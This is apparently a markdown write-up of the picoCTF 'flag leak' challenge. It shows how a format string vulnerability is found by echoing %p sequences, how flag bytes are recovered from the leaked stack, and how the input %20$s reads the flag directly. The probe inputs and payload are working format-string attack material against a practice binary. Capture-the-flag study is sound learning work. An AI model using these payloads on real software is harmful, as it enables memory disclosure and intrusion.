


# flag leak
Challenge Description:
> Story telling class 1/2 <br>
I'm just copying and pasting with this `program`. What can go wrong? 

CTF: <b>picoCTF</b> (picoGym)<br>Difficulty: <b>Medium</b>

<b>[Jump to solution](#solution)</b>

## Hints
Here are the hints provided by the challenge author.
<details>
<summary>Hint 1</summary>

> Format Strings
</details>

## Procedure
The program asks us for a story, and simply repeats our story back to us.
```
$ ./vuln
Tell me a story and then I'll tell you one >> hammy
Here's a story - 
hammy
```
Seeing as it repeats our input back to us, we can check to see if there's a format string vulnerability.
```
$ ./vuln
Tell me a story and then I'll tell you one >> %p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
Here's a story - 
0xfff28740|0xea385374|0x8049346|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0xea5f6a00|
```
And sure enough, like some of the other medium-difficulty FSV challenges, if you leak enough you begin to see ASCII bytes on the stack that looks like they can be converted to text.
```
Tell me a story and then I'll tell you one >> ["%p|" repeated 42 times]
Here's a story - 
0xfffcf1a0|0xe93b1374|0x8049346|...|0x6d6d6168|0x20757b79|0x206e6977|0x6168202d|0x7d796d6d|0x804000a|0xfffcf354|
```
This sequence of bytes: `0x6d6d6168|0x20757b79|0x206e6977|0x6168202d|0x7d796d6d` looks like it can be converted to text.
> 

By reversing each chunk to account for endianness, we get something that resembles a flag.
> 

Through some tinkering around, I found you can get the flag directly by inputting `%20$s` as your story. So that's probably easier lol

## Solution
1. Input `%20$s` as your story.

## Key Takeaways
I've finished writeups for most of the FSV medium-difficulty problems in picoGym at this point, and I noticed a trend of finding useful things around the 20th printf argument so I'll probably start looking there first more often. I think this is because printf arguments start popping from some stack pointer originating within the printf stack frame and the 20th address wanders back into the caller's stack frame, which tends to have more useful things.